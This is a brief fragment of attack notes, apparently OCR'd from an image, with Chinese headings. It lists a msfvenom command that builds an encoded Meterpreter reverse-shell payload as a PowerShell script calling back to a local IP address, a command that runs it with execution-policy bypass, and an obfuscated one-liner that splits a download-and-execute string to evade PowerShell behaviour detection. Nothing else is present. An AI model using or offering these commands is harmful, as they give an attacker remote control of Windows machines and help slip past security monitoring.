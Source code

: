 	>msfvenom -p windows/x64/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 15 -b '\x00' lhost=192.168.0.108 lport=12138 -f psh -o /var/www/html/1.ps1
	执行
	>powershell -ep bypass -noexit -file 1.ps1
	Powershell行为检测bypass
	>powershell -noexit "$c1='IEX(New-Object Net.WebClient).Downlo';$c2='123(''http://192.168.0.108/1.ps1'')'.Replace('123','adString');IEX ($c1+$c2)"